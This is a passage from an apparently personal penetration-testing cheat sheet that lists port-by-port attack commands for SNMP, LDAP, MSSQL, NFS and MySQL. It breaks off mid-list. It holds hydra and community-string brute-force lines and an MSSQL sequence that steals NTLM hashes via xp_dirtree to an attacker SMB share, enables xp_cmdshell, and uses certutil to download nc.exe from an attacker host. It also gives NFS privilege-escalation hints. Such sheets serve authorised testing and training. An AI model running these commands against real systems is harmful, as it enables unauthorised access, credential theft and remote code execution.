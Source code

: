 ## 161 - SNMP:
- Probe with snmpwalk if we know the community string (often is 'public'):
    - mib tree:   `snmpwalk -c public -v1 -t 10 10.11.1.14`
    - windows users:   `snmpwalk -c public -v1 10.11.1.14 1.3.6.1.4.1.77.1.2.25`
    - running windows processes:  `snmpwalk -c public -v1 10.11.1.73 1.3.6.1.2.1.25.4.2.1.2`
    - installed software:   `snmpwalk -c public -v1 10.11.1.50 1.3.6.1.2.1.25.6.3.1.2`
- Brute Force Community String:  `onesixtyone -c /usr/share/wordlists/SecLists/Discovery/SNMP/common-snmp-community-strings-onesixtyone.txt <IP>`
- Enumerate:  `snmpwalk -c public -v 1 10.10.10.116  \\  snmpwalk -v3 -l authNoPriv -u authOnlyUser -a MD5 -A MyPassword123 192.168.1.2  \\  snmp-check 192.168.1.2 -c public`
- **Enumerate: https://github.com/dheiland-r7/snmp:  `perl snmpbw.pl 10.10.10.241 public 2 4`
## 389 - LDAP:
- Run Scans:  `nmap -n -sV --script "ldap* and not brute" <IP>`
- `ldapsearch -h <IP> -x -s base`
- `ldapsearch -h <IP> -x -D '<DOMAIN>\<USER>' -w '<PASSWORD>' -b "DC=<1_SUBDOMAIN>,DC=<TDL>"`
- GUI:  jxplorer
## 1433 - MSSQL:
- Scan:  `nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <IP>`
- Brute Force:  `hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mssql -vV -I -u`
- With Creds:
    
        mssqlclient.py -windows-auth <DOMAIN>/<USER>:<PASSWORD>@<IP>
        mssqlclient.py <USER>:<PASSWORD>@<IP>
        # Once logged in you can run queries:
        SQL> select @@ version;
        # Steal NTLM hash
        sudo smbserver.py -smb2support liodeus .
        SQL> exec master..xp_dirtree '\\<IP>\liodeus\' # Steal the NTLM hash, crack it with john or hashcat
        # Try to enable code execution
        SQL> enable_xp_cmdshell
        # Execute code
        SQL> xp_cmdshell whoami /all
        SQL> xp_cmdshell certutil.exe -urlcache -split -f http://<IP>/nc.exe

## 2049 - NFS:
- View Shares:  `showmount -e <IP>`
- Mount Share Locally:  `sudo mount -v -t nfs <IP>:<SHARE> <DIRECTORY>`
- View Exported Shares:  `cat /etc/exports`
- Privesc: look for no_root_squash/no_all_squash
## 3306 - MYSQL:
- Brute Force:  `hydra -L <USERS_LIST> -P <PASSWORDS_LIST> <IP> mysql -vV -I -u`
- Local Connect:  `mysql -u <user> -p <password> [-e 'show databases;'  \\  -e 'use drupal; show tables; select * from users;']`
    - IF MYSQL LOCAL LOGIN DOESN'T WORK, USE MYSQLDUMP (or look for other mysql programs on box) (or use tool like Chisel):
        - `mysqldump --user=theseus --password=iamkingtheseus --host=localhost Magic`
    - ex. Setup local mysql database to connect to w/ adminer:  https://0xdf.gitlab.io/2020/09/26/htb-admirer.html
- Remote Connect:  `mysql -h <IP> -u <USER>`
- Commands:
    
